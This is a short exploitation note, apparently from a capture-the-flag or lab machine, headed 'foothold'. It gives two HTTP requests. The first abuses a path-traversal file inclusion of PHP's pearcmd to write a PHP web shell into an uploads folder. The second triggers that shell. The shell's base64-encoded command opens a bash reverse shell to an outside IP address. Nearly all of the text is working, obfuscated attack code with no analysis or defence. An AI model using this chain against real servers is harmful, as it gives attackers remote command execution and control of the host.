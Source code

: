 # Resource

foothold:

    GET /index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuNC8xNDUxNCAwPiYxJw=="));?>+/var/www/itrc/uploads/shell.php

    GET /uploads/shell.php

py script from Flower

    https://flowerwitch.github.io/
